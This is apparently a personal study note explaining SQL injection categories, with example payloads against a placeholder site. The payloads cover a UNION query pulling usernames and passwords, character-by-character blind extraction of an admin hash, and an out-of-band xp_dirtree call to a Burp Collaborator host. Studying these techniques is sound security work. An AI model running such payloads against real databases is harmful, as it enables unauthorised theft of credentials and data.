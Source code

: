 ```yaml
---
dg-publish: true
---
```

---
# OWASP top 10 web vuln:

![](../attachments/Pasted%20image%2020250202004548.png)

---

# Types of SQL Injection

![](../attachments/Pasted%20image%2020250202005406.png)

## In-band (Classic)

In-band SQLi occurs when the attacker uses the same communication channel to both launch the attack and gather the result of the attack. Retrieved data is presented directly on the application web page.

- Easier to exploit than other categories of SQLi.

### Error-Based SQLi

Error-based SQLi is an in-band SQLi technique that forces the database to generate an error, giving the attacker information upon which to refine their injection.

#### Example:

**Input:**

```sql
www.random.com/app.php?id='
```

**Output:**

```
You have an error in your SQL syntax, check the manual that corresponds to your MySQL server version ...
```

### Union-Based SQLi

Union-based SQLi is an in-band SQLi technique that leverages the `UNION` SQL operator to combine the results of two queries into a single result set.

#### Example:

**Input:**

```sql
www.random.com/app.php?id=' UNION SELECT username, password FROM users --
```

**Output:**

```
carlos
afibh9cjnkuwcsfobs7h
administrator
tn8f921skp5dzoy7hxpk
```

---

## Inferential (Blind)

Inferential SQLi occurs when there is no direct transfer of data via the web application. However, the attacker can still reconstruct the information by sending specific requests and observing the resulting behavior of the database server.

- Just as dangerous as in-band SQL injection.
- Takes longer to exploit than in-band SQL injection.

### Boolean-Based Blind SQLi

Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return different results depending on whether the query returns `TRUE` or `FALSE`.

#### Example:

**Input URL:**

```sql
www.random.com/app.php?id=1
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1
```

**Payload #1 (False):**

```sql
www.random.com/app.php?id=1 AND 1=2
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND 1=2
```

**Payload #2 (True):**

```sql
www.random.com/app.php?id=1 AND 1=1
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND 1=1
```

**Users Table:**

```
Administrator / e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```

**Extracting Data Example:**

```sql
www.random.com/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

If nothing is returned on the page → `False` → `'s'` is NOT the first character of the hashed password.

Try another letter:

```sql
www.random.com/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'e'
```

If a title is returned on the page → `True` → `'e'` IS the first character of the hashed password.

### Time-Based Blind SQLi

Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.

#### Example Query:

If the first character of the administrator's hashed password is `'a'`, wait for 10 seconds.

- **Response takes 10 seconds →** First letter is `'a'`
- **Response does not take 10 seconds →** First letter is not `'a'`

---

## Out-of-Band SQLi

Out-of-band SQLi occurs when an attacker triggers an out-of-band network connection to a system they control. This technique is less common but can be very powerful.

- A variety of protocols can be used (e.g., DNS, HTTP).

#### Example Payload:

```sql
EXEC master..xp_dirtree '//0efdymgwlo5w9inae8mg4dfrgim9ay.burpcollaborator.net/a' --
```

---

This properly formatted Markdown should now be readable and structured well for any documentation or reference purposes!